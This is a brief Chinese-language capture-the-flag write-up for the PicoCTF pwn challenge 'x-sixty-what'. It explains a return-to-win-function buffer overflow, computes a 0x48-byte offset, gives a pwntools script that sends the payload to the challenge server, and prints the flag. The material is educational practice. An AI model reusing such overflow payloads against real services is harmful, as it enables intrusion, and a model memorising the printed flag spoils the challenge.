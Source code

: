 ```yaml
---
title: PicoCTF - x-sixty-what
tags: [PicoCTF, CTF, PWN]

category: "Security/Practice/PicoCTF/PWN"
---
```


# PicoCTF - x-sixty-what
<!-- more -->

## Source code
:::spoiler
```cpp=

```
:::

## Recon
這一題有點奇怪，沒有想像中簡單，看起來就是一個簡單的return 2 function的問題，但是看了objdump的flag function原本應該是0x401236，但是會友segmentation fault，看了其他的WP[^x_sixty_what_WP]，發現應該return到0x40123b，不太知道為甚麼
* 第一張是return 2 0x401236
![](https://hackmd.io/_uploads/Bk2PZ_0ch.png)

* 第二張是return 2 0x40123b
    ![](https://hackmd.io/_uploads/SymO-uAqn.png)

## Exploit
1. 用動態的方式看offset
$$
0x7fffffffd758 - 0x00007fffffffd710 = 0x48
$$
```python=
from pwn import *

r = remote('saturn.picoctf.net', 58166)
# r = process('./vuln')
context.arch = 'amd64'

raw_input()
print(r.recvline().strip().decode())

payload = b'a'*0x48 + p64(0x40123b)
print(payload)
r.sendline(payload)

r.interactive()
```

Flag: `picoCTF{b1663r_15_b3773r_e79d5a75}`

## Reference
[^x_sixty_what_WP]:[x-sixty-what WP](https://ctftime.org/writeup/33199)
